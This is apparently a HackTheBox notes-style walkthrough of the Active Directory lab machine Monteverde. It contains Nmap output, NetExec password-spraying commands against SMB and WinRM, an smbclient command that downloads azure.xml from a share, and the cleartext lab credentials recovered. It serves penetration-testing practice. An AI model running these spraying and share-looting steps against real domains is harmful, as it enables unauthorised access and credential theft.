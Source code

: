 ```yaml
---
title: "Monteverde"
date: 2025-03-21
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "monteverde", "penetration testing", "writeup", "htb"]
---
```


# Monteverde

---
OS: Windows(AD)
Difficulty: Medium
Date: 2025-04-01
Note: User owned in previous attempt
---
# Summary


# Credentials
```text
SABatchJobs : SABatchJobs
mhope : 4n0therD4y@n0th3r$
```
# Enumeration
## Nmap
```sh
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-31 21:45:49Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49749/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

# Todo 
- [ ] 5985 - HTTP
- [x] SMB
- [x] LDAP
- [ ] 9389

- add `megabank.local` to `/etc/hosts`

## SMB
- Enum4linux result showed a bunch of usernames
- password spraying SMB with username.txt as username and username.txt as password did not return any hits
- 

```sh
nxc smb megabank.local -u username.txt -p username.txt --shares
```

![[/assets/images/monteverde2.png]]
![[/assets/images/monteverde3.png]]

```sh
nxc smb megabank.local -u SABatchJobs -p SABatchJobs -M spider_plus

# download a single file
smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

![[/assets/images/monteverde4.png]]

azure.xml
![[/assets/images/monteverde5.png]]

```sh
nxc winrm megabank.local -u username.txt -p password.txt --continue-on-success
```

![[/assets/images/monteverde6.png]]

## HTTP-5985
- raft-medium-lowercase did not return any results.

# Foothold
![[/assets/images/monteverde8.png]]

# Privilege Escalation
## WinPEAS
- AV enabled
![[/assets/images/monteverde9.png]]
## Manual Enumeration
mhope
![[/assets/images/monteverde10.png]]

![[/assets/images/monteverde11.png]]

https://github.com/Azure/azure-powershell/issues/9649

https://www.lares.com/blog/hunting-azure-admins-for-vertical-escalation/





